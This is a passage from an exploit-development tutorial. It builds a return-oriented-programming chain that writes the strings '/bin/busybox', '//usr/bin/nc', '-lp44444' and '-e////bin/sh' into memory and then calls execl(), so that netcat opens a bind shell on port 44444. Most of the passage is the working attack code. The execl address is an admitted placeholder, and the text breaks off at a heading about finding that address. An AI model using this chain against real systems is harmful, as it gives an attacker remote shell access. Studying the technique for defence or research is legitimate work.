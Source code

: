 And yes, it worked. Lets write these strings to our page full of null bytes,
using the write4() function.


i use `echo -n "bytes to write" | hexdump -C` to gain access to the bytes
of a string.

```
$exec_path_addr = 0x815e354;
$exec_arg1_addr = 0x815e364;
$exec_arg2_addr = 0x815e374;
$exec_arg3_addr = 0x815e384;


# 12: "/bin/busybox
# 2f 62 69 6e 2f 62 75 73  79 62 6f 78 0a           |/bin/busybox.|
$ropchain .= write4($exec_path_addr+0, 0x6e69622f); # 2f 62 69 6e
$ropchain .= write4($exec_path_addr+4, 0x7375622f); # 2f 62 75 73
$ropchain .= write4($exec_path_addr+8, 0x786f6279); # 79 62 6f 78

# 12: "//usr/bin/nc"
# 2f 2f 75 73 | 72 2f 62 69 | 6e 2f 6e 63              |//usr/bin/nc|
$ropchain .= write4($exec_arg1_addr+0, 0x73752f2f); # 2f 2f 75 73
$ropchain .= write4($exec_arg1_addr+4, 0x69622f72); # 72 2f 62 69
$ropchain .= write4($exec_arg1_addr+8, 0x636e2f6e); # 6e 2f 6e 63

#  8: "-lp44444"
# 2d 6c 70 34 34 34 34 34                           |-lp44444|
$ropchain .= write4($exec_arg2_addr+0, 0x34706c2d); # 2d 6c 70 34
$ropchain .= write4($exec_arg2_addr+4, 0x34343434); # 34 34 34 34

# 12: "-e////bin/sh"
# 2d 65 2f 2f 2f 2f 62 69  6e 2f 73 68              |-e////bin/sh|
$ropchain .= write4($exec_arg3_addr+0, 0x2f2f652d); # 2d 65 2f 2f
$ropchain .= write4($exec_arg3_addr+4, 0x69622f2f); # 2f 2f 62 69
$ropchain .= write4($exec_arg3_addr+8, 0x68732f6e); # 6e 2f 73 68


$ropchain .= pack("V", $ADDRESS_OF_EXECL); # just a placeholder for execl()

$ropchain .= pack("V", $exec_path_addr);	 # path
$ropchain .= pack("V", $exec_arg1_addr);	 # arg1
$ropchain .= pack("V", $exec_arg2_addr);	 # arg2
$ropchain .= pack("V", $exec_arg3_addr);	 # arg3
                                           # null implicit, already on stack

```

But actually, we have to dynamically find the address of execl(), for example
by using the already called function mmap(). We cannot define it statically
with $ADDRESS_OF_EXECL as written above, this is just for illustration.



## Find addresss of execl
